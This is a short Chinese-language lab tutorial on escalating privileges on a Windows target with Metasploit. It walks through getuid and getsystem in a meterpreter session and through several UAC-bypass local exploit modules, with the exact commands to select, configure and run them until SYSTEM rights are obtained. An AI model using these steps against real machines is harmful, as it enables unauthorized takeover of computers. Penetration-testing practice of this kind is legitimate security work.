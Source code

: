 # 一、环境准备

1 MSF-Metasploit Framework

2 一台windiows靶机

# 二、实战

1 提权方法（Windows）查看当前获得用户的权限   meterpreter 中输入： getuid

![1644493116225](https://img.gyxnb.top/img/1644493116225.png)

方法一、 meterpreter中输入：`getsystem`

![1644493125642](https://img.gyxnb.top/img/1644493125642.png)

方法二、使用msf模块提权

要想提权必须是已经拿到meterpreter  然后将当前meterpreter 后台 meterprerer中输入  `background`

1、 查看可用模块  MSF终端中输入   `search bypassuac`   查看提权模块

2、 选择一个适合当前系统的提权模块  我这边使用的是win10系统

那我们使用：

`use  exploit/windows/local/bypassuac_windows_store_reg` 

 尝试提权

这个模块不行就换一个 

`use exploit/windows/local/bypassuac_sluihijack`

或者  

`use exploit/windows/local/bypassuac_dotnet_profiler`

3 配置模块使用参数   终端内输入： `show options`

4 可以看到需要配置 session  终端内输入：

`set session 1`

5 执行提权  终端内输入：`run`

6 获取到meterpreter后 我们在终端内 输入getuid 看实际还没有提权成功  需要在还终端内在输入 `getsystem` 获取权限 

7 获取权限完成后 输入`getuid` 即可看到  已经获取到SYSTEM 最高权限了

![1644493163472](https://img.gyxnb.top/img/1644493163472.png)

看到这个证明已经将权限提升成功

